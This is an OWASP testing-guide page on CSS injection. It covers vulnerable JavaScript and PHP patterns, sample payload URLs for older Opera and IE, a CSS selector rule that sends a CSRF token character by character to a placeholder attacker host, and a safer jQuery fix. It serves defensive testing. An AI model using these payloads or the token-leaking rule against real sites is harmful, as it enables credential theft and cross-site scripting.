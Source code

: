 # Testing for CSS Injection (OTG-CLIENT-005)


## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site, and this will be rendered inside the victim's browser. The impact of such a vulnerability may vary on the basis of the supplied CSS payload: it could lead to Cross-Site Scripting in particular circumstances, to data exfiltration in the sense of extracting sensitive data or to UI modifications.


## How to Test
Such a vulnerability occurs when the application allows to supply user-generated CSS or it is possible to somehow interfere with the legit stylesheets. Injecting code in the CSS context gives the attacker the possibility to execute JavaScript in certain conditions as well as extracting sensitive values through CSS selectors and functions able to generate HTTP requests. Actually, giving the users the possibility to customize their own personal pages by using custom CSS files results in a considerable risk, and should be definitely avoided.


The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the "location.hash" (source) which reaches the "cssText" function (sink). This particular case may lead to DOMXSS in older browser versions, such as Opera, Internet Explorer and Firefox; for reference see DOM XSS Wiki, section "Style Sinks".

```
<a id="a1">Click me</a>
<script>
  if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
  }
</script>
```


Specifically the attacker could target the victim by asking her to visit the following URLs:  <br />
```
www.victim.com/#red;-o-link:'javascript:alert(1)';-o-link-source:current; (Opera [8,12])
www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)

```

The same vulnerability may appear in the case of classical reflected XSS in which for instance the PHP code looks like the following:

```
<style>
p {
  color: <?php echo $_GET['color']; ?>;
  text-align: center;
}
</style>
```


Much more interesting attack scenarios involve the possibility to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors and leading for instance to grab anti-CSRF tokens, as follows. In particular, input[name=csrf_token][value=^a] represents an element with the attribute "name" set "csrf_token" and whose attribute "value" starts with "a". By detecting the length of the attribute "value", it is possible to carry out a brute force attack against it and send its value to the attacker's domain.

```
<style>
input[name=csrf_token][value=^a] {
  background-image: url(http://attacker/log?a);
}
</style>
```


Much more modern attacks involving a combination of SVG, CSS and HTML5 have been proven feasible, therefore we recommend to see the References section for details.


### Black Box testing
We are referring to client-side testing, therefore black box testing is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed. However, it may happen that the user is given a certain degree of freedom in terms of possibilities to supply HTML code; in that case it is required to test whether no CSS injections are possible: tags like "link" and "style" should be disallowed, as well as attributes "style".


### Gray Box testing
**Testing for CSS Injection vulnerabilities:**<br>
Manual testing needs to be conducted and the JavaScript code analyzed in order to understand whether the attackers can inject its own content in CSS context. In particular we should be interested in how the website returns CSS rules on the basis of the inputs.


The following is a basic example:

```
<a id="a1">Click me</a>
<b>Hi</b>
<script>
  $("a").click(function(){
    $("b").attr("style","color: " + location.hash.slice(1));
  });
</script>
```


The above code contains a source "location.hash" that is controlled by the attacker that can inject directly in the attribute "style" of an HTML element. As mentioned above, this may lead to different results on the basis of the adopted browser and the supplied payload.


It is recommended that testers use the jQuery function css(property, value) in such circumstances as follows, since this would disallow any damaging injections. In general, we recommend to use always a whitelist of allowed characters any time the input is reflected in the CSS context.

```
<a id="a1">Click me</a>
<b>Hi</b>
<script>
  $("a").click(function(){
    $("b").css("color",location.hash.slice(1));
  });
</script>
```


## References
**OWASP Resources**
* [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* DOMXSS Wiki - https://code.google.com/p/domxsswiki/wiki/CssText


**Presentations**<br>
* DOM Xss Identification and Exploitation, Stefano Di Paola - http://dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf
* Got Your Nose! How To Steal Your Precious Data Without Using Scripts, Mario Heiderich - http://www.youtube.com/watch?v=FIQvAaZj_HA
* Bypassing Content-Security-Policy, Alex Kouzemtchenko - http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx


**Proof of Concepts**<br>
* Password "cracker" via CSS and HTML5 - http://html5sec.org/invalid/?length=25
* CSS attribute reading - http://eaea.sirdarckcat.net/cssar/v2/
